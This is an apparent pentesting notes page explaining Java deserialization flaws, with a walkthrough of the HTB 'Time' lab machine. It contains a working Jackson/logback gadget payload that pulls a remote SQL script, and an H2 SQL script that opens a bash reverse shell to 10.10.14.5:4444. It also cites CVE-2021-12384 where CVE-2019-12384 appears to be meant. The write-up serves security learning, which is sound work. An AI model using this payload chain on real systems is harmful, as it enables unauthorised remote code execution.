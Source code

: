 # Deserialization

Deserialization exploits the fact that a website may directly pass user input to a function that does not check the user input, which may have malicious functions or code.&#x20;

## How it Works

We first need to understand what serialization is.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Websites would take in input via some function, and then serialize it into a certain format to be passed back to the server for processing. This format can be in form of a string, base64 encoded, binary, etc. Depends on the language and functions used for the website.&#x20;

The security flaw happens when the website deserializes it back and processes it. This would give an attacker control over objects passed into the application, which can be harmful. Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

It is impossible to check for every single potential thing in deserialized data to ensure it is safe. Also, even if checks are implemented, it may already be too late as the data can cause an exception in the code through the deserialization process.

This kind of attack mainly leads to RCE or DoS conditions on a website, which are really severe. **In short, never trust user input.**

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a website that basically takes in JSON input and beautifies it.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We can enter some random JSON objects and it would output it as you would expect. If we enter some weird input, an error like this would appear:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We can see that the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384, which is an RCE exploit involving passing this URL as a JSON object to be serialized:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the website request any link of our own, and in this case, we can run SQL scripts directly through this callback. This would allow us to craft a malicious SQL Script that would give us a reverse shell.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```

This is one example of how input was not sanitised on the website, and it processed the JSON object we input although it was only supposed to beautify it.

